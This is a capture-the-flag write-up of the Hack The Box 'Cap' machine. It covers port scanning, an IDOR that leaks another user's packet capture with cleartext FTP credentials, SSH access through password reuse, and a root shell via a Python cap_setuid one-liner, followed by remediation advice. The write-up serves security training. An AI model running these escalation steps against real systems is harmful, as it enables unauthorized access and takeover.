




# HTB — Cap (Easy, Linux)

## Overview

Cap is an easy Linux machine that highlights the risks of insecure direct object references (IDOR) and over-privileged Linux capabilities. A web dashboard exposes network captures through a predictable, sequential ID, allowing an unauthenticated user to retrieve another user's PCAP. The capture leaks plaintext FTP credentials, which are reused for SSH access. Privilege escalation is achieved by abusing the `cap_setuid` capability assigned to the Python binary.

## Reconnaissance

### Port scan

```
$ nmap -sV -sC -Pn 10.129.133.208
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-23 19:19 +0200
Nmap scan report for 10.129.133.208
Host is up (0.059s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals three open ports: FTP (21), SSH (22), and an HTTP service (80) served by Gunicorn.

### FTP — anonymous login attempt

I first checked whether the FTP service allowed anonymous authentication. It did not:

```
$ ftp 10.129.133.208
Connected to 10.129.133.208.
220 (vsFTPd 3.0.3)
Name (10.129.133.208:r1st0r): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp>
```

## Foothold

### Web application enumeration

Browsing to the HTTP service presents a "Security Dashboard" web application.



The "Security Snapshot" feature generates a packet capture and serves it from a URL of the form `/data/<id>`. Because the identifier is sequential and the application performs no authorization check, the reference can be manipulated to access captures belonging to other users — an IDOR (Insecure Direct Object Reference) vulnerability.

Requesting `/data/0` returns the capture associated with the first user, which can be downloaded directly:



### Credential disclosure in the PCAP

Opening the downloaded capture in Wireshark shows an FTP session. Since FTP transmits credentials in cleartext, the username and password for the user `nathan` are visible in the `USER` and `PASS` commands:



### Authenticating with the recovered credentials

The recovered credentials grant access to the FTP service as `nathan`. Testing the same credentials against SSH confirmed password reuse, giving an interactive shell on the host:


```
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

## Privilege Escalation

### Enumeration with LinPEAS

I transferred LinPEAS to the target and ran it to enumerate local privilege escalation vectors. It flagged the Python binary as having Linux capabilities assigned:



The `/usr/bin/python3.8` binary carries `cap_setuid`, which allows a process to set its own user ID to 0 (root) without requiring the SUID bit.

### Exploitation

Using this capability, I spawned a root shell by setting the UID to 0 from within Python:

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/home/nathan# id
uid=0(root) gid=0(root) groups=0(root)
```

Root access is confirmed by the `uid=0(root)` output.

## Remediation

- **IDOR:** Enforce server-side authorization on the `/data/<id>` endpoint so that each user can only access their own captures. Consider using non-sequential, unpredictable identifiers (e.g., UUIDs).
- **Cleartext credentials:** Replace FTP with a secure alternative such as SFTP or FTPS to prevent credential interception.
- **Password reuse:** Enforce distinct credentials across services.
- **Excessive capabilities:** Remove `cap_setuid` from the Python binary (`setcap -r /usr/bin/python3.8`), as it is unnecessary and trivially abusable for privilege escalation.